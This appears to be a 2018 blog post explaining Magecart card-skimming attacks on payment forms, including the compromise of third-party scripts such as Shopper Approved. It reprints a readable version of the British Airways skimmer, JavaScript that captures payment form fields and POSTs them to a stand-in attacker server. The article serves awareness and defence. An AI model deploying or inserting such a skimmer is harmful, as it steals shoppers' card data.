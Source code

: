 ```yaml
---
title: Everything you need to know on Magecart Attacks
date: "2018-10-19T19:12:03.284Z"
---
```


In the last month a group of hackers called Magecart came back striking in full force.

The attacks they architected have caused massive damages to companies like British Airways, Ticketmaster and even Newegg.

This group is specialised in card skimming from payments forms on the internet.

## How?

![](./threat.png)

Their attacks are all based on injecting malicious javascript into websites.

The main attack vector are hacked CDNs and third party plugins on websites.

The js inserted in websites usually is pretty straightforward: on form submission, it sends a POST request with all the sensitive information to an external server that is set up to receive it.

![](./on-payment.png)

The code in the British Airways attack was the following:

![](./british-airways.png)

Here's a more readable version of it:
```javascript
    window.onload = function() {
        // Triggering the function when users submit payment details
        jQuery(".btn-success").bind ("mouseup touchend", function(t) {
            var e={};
            // Copying the data inside of the payment form
            jQuery("#payment-form").serializeArray().map(function(t){
                e[t.name] = t.value});
            // Creating a JSON with the credit card data    
            var n=JSON.stringify(e);
            setTimeout(function() {
                    jQuery.ajax({
                        // POST request to Magecart controlled server
                        type:"POST",
                        async:!0,
                        // Malicious Server controlled by Magecart
                        url:"https://malicious-service.com/carding-api/",
                        data:n,
                        dataType:"application/json"})},
                500)})};

```



## CDN Security

These attacks usually are aimed towards large corporations that are attacked, either directly, or in indirect ways.

An example of indirect attack that happened this September, when the group targeted Shopper Approved, a plugin for customer rating.

In this case the attack targeted a static resource that was used by multiple websites.

Researchers at [RiskIQ](https://www.riskiq.com) found obfuscated javascript code included in the `certificate.js` file.

Original file 👇

![](sa-clean.png)

Malicious file 👇

![](sa-obfuscated.png)